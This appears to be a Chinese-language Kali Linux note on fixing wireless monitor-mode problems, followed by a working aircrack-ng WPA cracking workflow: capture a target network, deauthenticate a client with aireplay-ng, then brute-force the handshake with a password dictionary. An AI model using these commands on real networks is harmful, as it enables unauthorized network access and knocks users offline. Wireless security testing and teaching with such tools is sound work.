

[TOC]

## 一、wlan0无线网卡 监听不到数据包？

1. `无线网卡断开与外部主机的链接，要直接与虚拟机链接（kali能识别到该网卡），并为网卡wlan0开启监听。`
3. `热插拔网卡`调试。
3. 卸载重装当前网卡驱动，还不行就换个驱动

## 二、wlan0监听过程中总是 down？

airodump-ng 抓包时，wlan0 总是进入 down 状态，可能是以下原因：

1. `NetworkManager` 或 `wpa_supplicant` 进程干扰（可能性不大）

   NetworkManager 和 wpa_supplicant 可能会尝试控制无线网卡，导致 airodump-ng 运行一段时间后 网卡掉线。

   先结束这2个进程：

   ```shell
   sudo systemctl stop NetworkManager
   sudo systemctl stop wpa_supplicant
   ```

   然后重新启动监听模式（重点！！，`问题一`也可照此修复）：

   ```shell
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo ip link set wlan0 up
   ```

   恢复网络连接：如果需要恢复 Wi-Fi 连接，运行：

   ```shell
   sudo systemctl start NetworkManager
   sudo systemctl start wpa_supplicant
   ```

2. 省电模式导致网卡掉线
   某些无线网卡在监听模式下会 自动进入省电模式，导致 airodump-ng 停止抓包。

   关闭省电模式：

   ```shell
   iw dev wlan0 set power_save off
   ```

   如果仍然 down，可以尝试：

   ```shell
   echo "options iwlwifi power_save=0" | sudo tee /etc/modprobe.d/iwlwifi.conf
   sudo systemctl restart NetworkManager
   ```
   
3. 网卡驱动问题（卸载、重装）

   ```shell
   sudo modprobe -r rtl8xxxu  # 卸载默认驱动
   sudo modprobe rtl8xxxu     # 重新加载驱动
   ```
## 三、常用命令：

```shell
sudo reboot # 重启虚拟机

查看网卡信息
sudo ifconfig 或 sudo iwconfig

使能网卡监听功能
sudo airmon-ng start wlan0
开始执行监听
sudo airodump-ng wlan0

删除 当前目录下`wifi-`前缀的 所有文件
sudo rm -f wifi*

监听目标wifi热点的数据包，抓取的数据保存为`/home/kali/Desktop/`路径下的`wifi-`前缀文件。
sudo airodump-ng -c <wifi热点信道号CH> --bssid <目标wifi地址> -w /home/kali/Desktop/wifi <无线网卡代码>

攻击目标设备，使其掉线重连
sudo aireplay-ng <`--deauth`或`-0`> 10 -a <目标wifi地址> -c <目标设备地址> <无线网卡代码>

抓包成功（监听页面右上角会有`WPA handshake`提示）后，用“密码字典pwd.txt”暴力破解，破解成功也有`Found`提示。
sudo aircrack-ng -w /home/kali/Desktop/pwd.txt -b <目标wifi地址> /home/kali/Desktop/wifi-0*.cap
```

## 四、过程概要：
1. 查看wlan网卡

   

2. 监听时生成的文件（监听中）

   

3. 攻击设备掉线重连后成功抓到包

   

4. 成功从密码字典中找到密码

   


## 注意：

1. sudo airodump-ng执行后，只有当设备重连网络时，才能抓到数据包；
2. 一个网卡同一时间只能监听一个ssid频道；